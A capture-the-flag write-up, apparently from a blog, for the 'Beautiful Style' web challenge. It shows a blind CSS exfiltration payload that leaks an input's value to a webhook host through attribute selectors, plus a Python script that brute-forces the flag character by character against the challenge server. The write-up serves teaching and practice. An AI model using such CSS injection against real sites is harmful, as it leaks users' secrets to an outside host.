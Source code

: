 ```yaml
---
title: Beautiful Style Writeup
date: 2024-05-11
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# 0x01

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>My Beautiful Site</title>
    <link
      href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css"
      rel="stylesheet"
      integrity="sha384-T3c6CoIi6uLrA9TneNEoa7RxnatzjcDSCmG1MXxSR1GAsXEV/Dwwykc2MPK8M2HN"
      crossorigin="anonymous"
    />
    <link href="/uploads/{{submit_id}}.css" rel="stylesheet" />
  </head>
  <body>
    <div class="container">
      <h1 id="title">Welcome to my beautiful site</h1>
      <p id="sub-header">
        Here is some content that I want to share with you. An example can be
        this flag:
      </p>
      <input id="flag" value="{{ flag }}" />
    </div>
    <div class="container mt-4">
      <form action="/judge/{{submit_id}}" method="post">
        <input type="submit" value="Submit for judging">
      </form>
    </div>
    <script
      src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"
      integrity="sha384-C6RzsynM9kWDrMNeT87bh95OGNyZPhcTNXj1NW7RuBCsyN/o0jlpcV8Qyq46cDfL"
      crossorigin="anonymous"
    ></script>
  </body>
</html>
```

We can see that we are to craft our own CSS, which will be submitted for judging. Therefore, we are able to use `Blind CSS Exfiltration` vulnerability for this challenge (https://portswigger.net/research/blind-css-exfiltration) to get the flag

# 0x02

Firstly we need setup a Webhook, and the payload we will be using: 

```css
input[id=flag][value^='grey{... ']{
	background-image: url(<webhook-url>?flag=grey{ ...);
	color: red;
	}
```

By doing such, when the `value ^= 'grey{... '` is a valid CSS property value, it will trigger a request with the value of the flag `grey{... `, and we are able to receive the flag by accessing the Webhook.

## 0x03

Secondly, we need to write a python script:

```python
import requests
from bs4 import BeautifulSoup

url = "http://challs.nusgreyhats.org:33339/"


def submit(content):
    # css injection
    data = {"css_value" : "input[id=flag][value^='" + content + "']{background-image: url(<webhook site>?flag=" + content + ");color: red;}"}
    print("Payload:", data["css_value"])
    # sending data to "/submit"
    request = requests.post(url=url + "/submit", data=data)
    print("Url: ",url)
    # filter out judgeLink
    soup = BeautifulSoup(request.text, "html.parser")
    form = soup.find("form")
    judgeLink = form.get("action")
    return judgeLink


def judge(flagTest):
      newUrl = url + flagTest
      request2 = requests.post(newUrl)       
      

if __name__ == "__main__":
    words = '1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZf}'
    flag = 'grey{'
    for i in words:
        flagTest = flag + i
        judgeLink = submit(flagTest)
        print("judgeLink:", judgeLink)
        judge(judgeLink)
        print("---------------------------------------------------------")

```

By running it once, we checked the Webhook and discovered the Webhook recieved a get request and the 'flag' parameter has a value of "grey{X". This means that the first part of the flag is "grey{X"

We need to changing and updating the flag value:

```python
if __name__ == "__main__":
    words = '1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZf}'
    flag = 'grey{X' # updating the flag value
    for i in words:
        flagTest = flag + i
        judgeLink = submit(flagTest)
        print("judgeLink:", judgeLink)
        judge(judgeLink)
        print("---------------------------------------------------------")
```

By repeating the whole process mutiple times, we are able to get the flag `grey{X5S34RCH1fY0UC4NF1ND1T}` (We will eventually stop when the flag has a closing bracket as the format of the flag is `grey{...}`)

